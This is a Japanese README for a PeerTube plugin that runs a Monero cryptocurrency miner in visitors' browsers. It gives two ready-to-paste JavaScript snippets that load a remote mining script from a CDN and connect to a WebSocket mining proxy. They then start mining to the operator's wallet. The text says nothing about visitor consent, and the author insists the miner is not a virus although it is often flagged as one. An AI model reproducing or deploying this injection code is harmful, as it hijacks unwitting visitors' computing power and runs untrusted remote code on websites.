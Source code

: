 # PeerTube plugin Quickstart

See https://docs.joinpeertube.org/#/contribute-plugins?id=write-a-plugintheme

下記のマイニングスクリプトを組み込めないかと色々やってみました。

開発者のNajm Ajmal様、ありがとうございます。

https://github.com/NajmAjmal/monero-webminer

Issueとかでご意見や改善案を出してくださると嬉しいです。

# このプラグインについて

マイニングスクリプトというプログラムの性質上、よくウィルス扱いされますがウィルスではありません。

一応動くと思いますがまだまだ開発途上なので不具合や改善するべき点は多いですからご了承ください。

実は当初はプラグインを作ろうとは思わず、Najm Ajmal様が手本として載せた下記のコードをPeertubeの設定にそのままコピペていました。

しかしそれをするとマイニングに必要な「wss://」から始まるWebSocketに接続できなかったため、このプラグインを開発しました。

```javascript
// Start Of Mining Code (Javascript)
var script = document.createElement("script");
script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
document.head.appendChild(script);

server = "wss://ny1.xmrminingproxy.com";
var pool = "moneroocean.stream";
var walletAddress = "4からスタートするMoneroのアドレス";
var workerId = "GH-XMR"
var threads = 2;
var password = "";
startMining(pool, walletAddress, workerId, threads, password);
throttleMiner = 20;
// End Of Mining Code
```

ChatGPTの手も借りながらプラグイン開発をしていましたが、実際の所としてはHTMLのサンプルをJavaScriptでそのまま貼り付けられるようにして変換します。

そうしてできた下記のコードをPeertubeの設定欄にあるJavaScriptの項目に必要な設定部分を変更して貼り付けるだけで動作する事が分かりました。

```javascript
// 外部スクリプトを挿入
const externalScript = document.createElement("script");
externalScript.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
externalScript.async = false;
document.head.appendChild(externalScript);

// 外部スクリプトのロード完了後に内部スクリプトを挿入
externalScript.onload = function() {
    console.log("Mining script loaded successfully.");

    const inlineScript = document.createElement("script");
    inlineScript.textContent = `
        server = "wss://ny1.xmrminingproxy.com";
        var pool = "moneroocean.stream";
        var walletAddress = "4からスタートするMoneroのアドレス";
        var workerId = "GH-XMR-JavaScript";
        var threads = 2;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    `;
    document.body.appendChild(inlineScript);
    console.log("Mining started.");
};

externalScript.onerror = function() {
    console.error("Failed to load the mining script.");
};
```

数日間の悪戦苦闘は徒労だったんですが、他の方がプラグインを新規に開発するにあたって、このプラグインは残しておく事にします。


# ご支援とかリンクとか色々

・NPM（Peertubeのプラグインを公開しているページ）

https://www.npmjs.com/package/peertube-plugin-monero-miner

・プロフィール

https://x.com/PYU224

https://linksta.cc/@pyu224

・ご支援とか（Misskeyサーバーの規約と寄付の方法が載っています）

https://github.com/PYU224/misskey-data